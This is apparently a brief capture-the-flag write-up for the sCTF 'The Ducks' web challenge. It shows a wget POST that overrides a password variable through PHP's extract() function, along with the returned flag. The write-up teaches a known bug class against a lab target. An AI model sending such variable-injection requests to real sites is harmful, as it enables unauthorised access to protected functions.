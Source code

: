 #Ducks

##[The ducks](http://ducks.sctf.michaelz.xyz/) and I have a unfinished score to settle.

Hint: If you've remember HSF, you'll know that The Ducks is unsolvable.


This one was quite easy: since it gave us the [source code of the page](http://ducks.sctf.michaelz.xyz/source.php) we could see that it uses the [PHP extract()](http://stackoverflow.com/questions/829407/what-is-so-wrong-with-extract) function.

Our goal was then to send a POST that would override the `thepassword_123` variable:


`wget -qO- --post-data="pass=abc&thepassword_123=abc" http://ducks.sctf.michaelz.xyz/`

and within the output, there it is:

```
<h1>The Ducks</h1>
<div class="alert alert-success">
<code>sctf{maybe_i_shouldn't_have_extracted_everything_huh}</code>
</div>
```

